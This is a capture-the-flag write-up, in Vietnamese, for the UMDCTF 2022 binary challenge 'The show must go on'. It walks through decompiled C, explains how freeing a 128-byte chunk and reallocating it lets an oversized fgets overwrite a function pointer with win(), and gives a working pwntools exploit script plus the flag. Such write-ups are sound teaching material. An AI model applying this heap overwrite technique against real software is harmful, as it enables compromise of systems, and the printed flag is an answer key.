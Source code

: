 # The show must go on UMDCTF 2022 

## Description

Đầu tiên ta kiểm tra qua thông tin của file

```Terminal
➜  checksec theshow
[*] '/home/hibana/Downloads/theshow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
➜  file theshow
theshow: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=9892240bcbf253bbd60b8484cf029b3fe7864338, not stripped
```

Sau đó chạy thử file

```Terminal
➜  ./theshow
Welcome to the comedy club!
We only have the best comedians here!Please help us set up for your act
What is the name of your act?
ba
Your act code is: Main_Act_Is_The_Best
How long do you want the show description to be?
12
Describe the show for us:
idk
What would you like to do?
+-------------+
|   Actions   |
|-------------|
| Perform Act |
| Switch Act  |
| End Show    |
+-------------|
Action:
```

Đầu tiên sẽ nhập một vài thông tin sau đó hiện ra 1 menu với 3 options: `Perform Act`, `Switch Act`, `End Show`
Với option 1 `Perform Act` thì sẽ tell joke sau dó kết thúc chương trình. Option2 `Switch Act` thì sau khi nhập một vài thông tin thì mình luôn bị trả về lỗi segmentation fault. Option3 thì kết thúc chương trình. Bây giờ cùng ngó qua source code để xem ta có thể khai thác được gì. Mình thấy có 1 số hàm như sau:

![function](function.png) 

Ta thấy có hàm `win()` và `tellAjoke()` mình đoán để có flag thì cần phải làm `Perform Act` chạy hàm `win()` thay vì `tellAjoke()`
cùng xem chi tiết các hàm khác nhé:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rdx
  int result; // eax

  setbuf(stdout, 0LL, envp);
  setbuf(stdin, 0LL, v3);
  setbuf(stderr, 0LL, v4);
  setup();
  result = whatToDo();
  if ( result )
    return puts("The show is over, goodbye!");
  return result;
}
```

```C
__int64 setup()
{
  __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rax
  int v3; // r8d
  int v4; // r9d
  int v5; // edx
  int v6; // ecx
  int v7; // r8d
  int v8; // r9d
  int v9; // edx
  int v10; // ecx
  int v11; // r8d
  int v12; // r9d
  int v13; // edx
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  int v17; // edx
  int v18; // ecx
  int v19; // r8d
  int v20; // r9d
  int v22; // [rsp+4h] [rbp-3Ch] BYREF
  __int64 v23; // [rsp+8h] [rbp-38h]
  char v24[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v25; // [rsp+38h] [rbp-8h]

  v25 = __readfsqword(0x28u);
  v22 = 0;
  message1 = malloc_set(80LL);
  message2 = malloc_set(96LL);
  message3 = malloc_set(128LL);
  v0 = message1;
  *(_QWORD *)message1 = 0x20656D6F636C6557LL;
  *(_QWORD *)(v0 + 8) = 0x6320656874206F74LL;
  *(_QWORD *)(v0 + 16) = 0x6C63207964656D6FLL;
  *(_DWORD *)(v0 + 24) = 169960053;
  v1 = message2;
  *(_QWORD *)message2 = 0x20796C6E6F206557LL;
  qmemcpy((void *)(v1 + 8), "have the best comedians here!", 29);
  v2 = message3;
  *(_QWORD *)message3 = 0x6820657361656C50LL;
  strcpy((char *)(v2 + 8), "elp us set up for your act\n");
  printf((unsigned int)"%s", message1, 1965061221, 1870209138, v3, v4);
  printf((unsigned int)"%s", message2, v5, v6, v7, v8);
  printf((unsigned int)"%s", message3, v9, v10, v11, v12);
  puts("What is the name of your act?");
  _isoc99_scanf((unsigned int)"%s", (unsigned int)v24, v13, v14, v15, v16);
  mainAct = malloc_set(104LL);
  j_strncpy_ifunc(mainAct, v24, 32LL);
  v23 = fcrypt("Main_Act_Is_The_Best", salt);
  j_strncpy_ifunc(mainAct + 32, v23, 64LL);
  puts("Your act code is: Main_Act_Is_The_Best");
  *(_QWORD *)(mainAct + 96) = tellAJoke;
  currentAct = mainAct;
  free(message1);
  free(message3);
  puts("How long do you want the show description to be?");
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v22, v17, v18, v19, v20);
  showDescription = malloc_set(v22 + 8);
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription, 500LL, stdin);
  actList = mainAct;
  return 0LL;
}
```

```C
__int64 __fastcall whatToDo(__int64 a1, int a2)
{
  int v2; // edx
  int v3; // ecx
  int v4; // r8d
  int v5; // r9d
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v11; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v12; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v13; // [rsp+8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  puts("What would you like to do?");
  v11 = 0;
  v12 = 0;
  puts("+-------------+");
  puts("|   Actions   |");
  puts("|-------------|");
  puts("| Perform Act |");
  puts("| Switch Act  |");
  puts("| End Show    |");
  puts("+-------------|");
  printf((unsigned int)"Action: ", a2, v2, v3, v4, v5);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v11, v6, v7, v8, v9);
  switch ( v11 )
  {
    case 2:
      switchAct();
      puts("I think the current act switched switched. It might appear when we start up again...");
      break;
    case 3:
      return 1;
    case 1:
      (*(void (**)(void))(currentAct + 96))();
      break;
  }
  return v12;
}
```

OKE. Code khá là dài, mấy hàm ko quan trọng mình ko cho vào đây. Sau một hồi lâu ngồi đọc code, mình phát hiện chương trình `free(message3)` ngay sau đó `malloc_set(v22 + 8)` với v22 được người dùng nhập vào. Vì cơ chế free nên nếu ta nhập vào sao cho v22+8 = 128(size của mssage3) thì showDescription sẽ được trả về đúng địa chỉ của message3. Message3 nằm ngay trước `mainActor`. Thông qua việc gọi hàm `fgets(showDescription, 500LL, stdin);`, ta ghì đè từ showDescription đến `mainActor+96` ghì đè địa chỉ của hàm win vào. Khi đó, người dùng chọn `Perform Act` thì hàm `(*(void (**)(void))(currentAct + 96))()` sẽ được gọi. Ta sẽ có flag.

## Exploit code

```python
#!python3
from pwn import *
#HOST 0.cloud.chals.io PORT 30138
p = remote('0.cloud.chals.io', 30138) #connect to server
print(p.recvuntil(b'act?')) # What is the name of your act?
p.sendline(b'quangba')
print(p.recvuntil(b'be?')) #How long do you want the show description to be? 120 + 8 = 128 = message3 size
p.sendline(b'120')
print(p.recvuntil(b'us:')) #Describe the show for us:
payload = b'a'*(128+16+96) #128 kí tự cho showDescription, 16 kí tự cho metadata của chunk mainActor, 96 kí tự offset
payload += p64(0x400BED)    #địa chỉ hàm win()
p.sendline(payload)
p.interactive()
```

## FLAG: UMDCTF{b1ns_cAN_B3_5up3r_f4st}
